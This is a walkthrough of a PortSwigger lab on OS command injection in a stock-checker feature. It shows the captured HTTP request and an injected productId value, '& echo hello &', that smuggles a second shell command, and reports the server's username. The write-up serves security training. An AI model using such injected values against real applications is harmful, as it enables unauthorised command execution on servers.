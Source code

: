 # 1d1 - OS command injection, simple case \[PortSwigger Lab]

This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the `whoami` command to determine the name of the current user.

### Solution:

So we got the application url `https://0a1a008c030d74ae82cb6698003a004a.web-security-academy.net/`

Once again, it has a product page where 'Check stock' function is implemented.

{{< figure src="/.gitbook/assets/Pasted image 20240719175357.png" alt="" >}}

By checking HTPP request made by that button is as follows

```
POST /product/stock HTTP/2
Host: 0a1a008c030d74ae82cb6698003a004a.web-security-academy.net
Cookie: session=SMwTtluydKMmnOH4phL6G00iGAwD2J9Q
Content-Length: 21
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a1a008c030d74ae82cb6698003a004a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a1a008c030d74ae82cb6698003a004a.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

productId=2&storeId=1
```

on the bottom we got `productId=2&storeId=1` which makes a request to an API with these parameters.

Let's change productID argument to `& echo hello &` but with url encoding enabled

{{< figure src="/.gitbook/assets/Pasted image 20240719183331.png" alt="" >}}

This request gives out the following output !\[\[Pasted image 20240719183415.png]] although it resulted in error, now we know the username `peter-3vyaW3`

or the second way&#x20;

{{< figure src="/.gitbook/assets/Pasted image 20240719183446.png" alt="" >}}

which yields the same response:

{{< figure src="/.gitbook/assets/Pasted image 20240719183502.png" alt="" >}}

***
